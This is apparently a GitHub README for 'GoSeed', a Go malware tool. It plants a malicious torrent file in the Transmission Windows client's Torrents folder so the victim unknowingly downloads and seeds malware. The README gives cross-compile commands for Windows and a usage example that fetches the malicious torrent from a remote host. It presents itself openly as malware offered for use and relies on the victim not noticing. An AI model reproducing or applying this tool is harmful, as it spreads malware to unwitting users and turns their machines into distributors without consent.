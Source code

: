 # Readme

This isn't a "spreading" technique technically, it's more of a way to force a victim to seed our malicious torrent file. This targets Transmission's Windows client.

Transmission's client has a folder named Torrents which contains a list of currently downloading torrents. We can add our malicious torrent here and it will begin to auto download when the user opens up Transmission. Once the download is finished, then the victim will begin seeding our malware that is inside the torrent. This relies on the user somehow not noticing that our torrent is being downloaded and seeded. 

# Compiling

You need to install [grequests](https://github.com/levigross/grequests) in order to compile the code. This can be installed via:

* `go get -u github.com/levigross/grequests`

Then you compile via:

* `GOOS=windows GOARCH=386 go build seed.go`

# Usage

GoSeed is a command-line tool, you pass the URL to the malicious torrent file to the *-url* flag and the malware will:

1. Check to see if Transmission is installed
2. If installed, it will generate a random file name for the torrent
3. Download the torrent file to Transmission's Torrents/ folder


Example Usage: 

* `seed.exe -url http://192.168.1.231:8000/malware.torrent`
